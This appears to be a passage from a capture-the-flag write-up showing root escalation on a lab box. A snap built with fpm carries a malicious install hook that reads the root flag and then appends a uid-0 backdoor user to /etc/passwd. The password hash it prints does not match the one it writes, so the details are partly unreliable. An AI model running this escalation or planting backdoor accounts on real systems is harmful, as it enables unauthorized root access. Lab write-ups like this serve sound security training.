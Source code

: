 We install fpm on our kali box `sudo gem install --no-document fpm`.
We build a snap on our machine using `fmp` and the command on [gtfobins](https://gtfobins.github.io/gtfobins/snap/).

    :::text
    └─$ COMMAND=id
    cd $(mktemp -d)
    mkdir -p meta/hooks
    printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
    chmod +x meta/hooks/install
    fpm -n test -s dir -t snap -a all meta

Using `scp` we upload the snap file to the box and "install" it.

    :::text
    [brucetherealadmin@armageddon tmp.Y8rUvO3A58]$ sudo /usr/bin/snap install test_1.0_all.snap --dangerous --devmode
    error: cannot perform the following tasks:
    - Run install hook of "test" snap if present (run hook "install": uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0)

We change the command to display the root flag

    :::text
    └─$ COMMAND='cat /root/root.txt'
    cd $(mktemp -d)
    mkdir -p meta/hooks
    printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
    chmod +x meta/hooks/install
    fpm -n test -s dir -t snap -a all meta

    Created package {:path=>"test_1.0_all.snap

    [brucetherealadmin@armageddon tmp.CR7TIBjISj]$ sudo /usr/bin/snap install test_1.0_all.snap --dangerous --devmode
    error: cannot perform the following tasks:
    - Run install hook of "test" snap if present (run hook "install": 59303daefd76582a8731bbc25b7b9c47)

We want a root shell an not just to display the flag. As we can run any command as root we have a few choices:

* Add a root (id 0) user to `/etc/passwd` with a password of our choice
* Add an ssh key to root
* run a reverse shell
* a few others

We will go with the first one. On our kali we use `openssl` to generate a hashed password

    :::text
    openssl passwd -1 -salt ignite pass123
    $1$ignite$LcHWKSHaZ8KUa68dh14V6.

We change our install hook command to add to `/etc/passwd`, regenerate the
snap and copy it to the box.

    :::text
    └─$ cat meta/hooks/install
    #!/bin/sh
    echo 'toto2:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash'>>/etc/passwd; false
